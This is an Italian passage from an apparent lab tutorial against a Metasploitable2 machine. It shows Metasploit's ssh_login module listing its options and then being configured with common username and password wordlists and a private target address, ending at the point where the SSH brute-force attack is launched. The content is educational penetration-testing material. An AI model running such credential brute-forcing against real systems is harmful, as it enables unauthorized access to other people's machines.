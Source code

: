 Come si vede la ricerca ha avuto esito positivo, sono stati trovati ben due moduli. Il primo modulo non solo testa un insieme di credenziali classiche per quel tipo di indirizzi IP ma può anche tentare un approccio brute force; perfetto per i nostri scopi.
Il secondo modulo invece tenta l'approccio attraverso l'autenticazione a chiave pubblica __sapendo che questo metodo è più sicuro__ come opera il modulo? Quello che cerca di fare è scovare una porzione della chiave privata che non sia stata conservata a dovere e provare ad effettuare il login verso diversi dispositivi cercando la combinazione corretta.

Nella cartella del Git troviamo due file chiamati __users.txt__ e __passwords.txt__ che contengono delle entry date dai nomi utenti e password più comuni e conosciuti. Tentiamo il primo approccio.


```
msf6 > use 0
msf6 auxiliary(scanner/ssh/ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

```

Settiamo tra le due opzioni __USERPASS_FILE__ e __PASS_FILE__ proprio per utilizzare i due file a nostra disposizione e cercare di trovare una corrispondenza per accedere alla macchina tramite il servizio SSH.

```
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /root/metasploitable2/users.txt
USER_FILE => /root/metasploitable2/users.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /root/metasploitable2/passwords.txt
pass_file => /root/metasploitable2/passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set stop_on_success true
stop_on_success => true
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.139.129
RHOSTS => 192.168.139.129
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

```
